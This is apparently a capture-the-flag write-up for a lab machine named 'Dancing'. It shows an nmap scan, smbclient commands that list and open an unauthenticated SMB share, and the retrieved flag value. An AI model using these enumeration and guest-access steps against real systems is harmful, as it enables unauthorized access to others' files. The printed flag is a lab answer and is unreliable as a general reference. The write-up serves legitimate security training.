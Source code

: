 # Dancing

#startingpoint #smb #reconnaissance #anonymous/guestaccess 

`nmap` scan shows SMB running on ports 135/445, specifically the `microsoft-ds` service:

```
$ nmap -sC -sV -T4 10.129.240.89
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-30 17:31 EDT
Nmap scan report for 10.129.240.89
Host is up (0.034s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: 3h57m43s
| smb2-time: 
|   date: 2024-08-31T01:29:25
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.77 seconds
```

Listing the available shares with `smbclient`, we see there are **four shares**:

```
$ smbclient -L 10.129.240.89
...
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk
```

Accessing `WorkShares`, we see two directories, `Amy.J` and `James.P`, with the latter containing `flag.txt` which is retrieved with the `get` command:

```
$ smbclient \\\\10.129.240.89\\WorkShares
```

Reading the `flag.txt` file:

```
$ cat flag.txt
5f61c10dffbc77a704d76016a22f1664
```